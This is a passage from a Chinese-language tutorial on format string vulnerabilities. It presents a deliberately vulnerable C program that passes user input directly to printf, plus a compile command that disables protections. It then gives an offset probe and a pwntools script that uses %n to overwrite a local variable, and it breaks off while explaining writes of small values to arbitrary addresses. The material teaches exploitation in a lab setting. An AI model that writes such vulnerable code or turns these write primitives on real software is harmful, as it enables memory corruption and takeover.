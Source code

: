 以下面为例
```c
#include <stdio.h>

int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```
编译
```bash
gcc -m32 -fno-stack-protector -no-pie -o overwrite overwrite.c
```

#### 覆盖栈内存
需要将局部变量c的值修改成16，程序已经给了变量c的地址，下一步就是获取相对偏移
```bash
gnq@gnq:~/test$ ./overwrite
0xffffcfac
aaaa.%p.%p.%p.%p.%p.%p 
aaaa.0xffffcf48.0xc2.0xf7e9379b.0xffffcf6e.0xffffd06c.0x61616161
```
通过测试，可以知道变量c在格式化字符串的第六个参数。现在就可以通过%n来构造payload
```python
c_addr + %012d + %6$n
```
因为c_addr已经占了4个字节，还需要补充12个字节才到16字节，再通过%6$n将变量c修改成16
```python
from pwn import *

p=process("./overwrite")
c_addr=int(p.recv(10),16)
print c_addr

payload = p32(c_addr) + '%012d' + '%6$n'
p.sendline(payload)

p.interactive()
```

### 覆盖任意地址内存
#### 覆盖小数字
需要将变量a的值覆盖成2，如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比2大。仔细想一下，有必要将所要覆盖的变量的地址放在字符串的最前面么？只要把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。
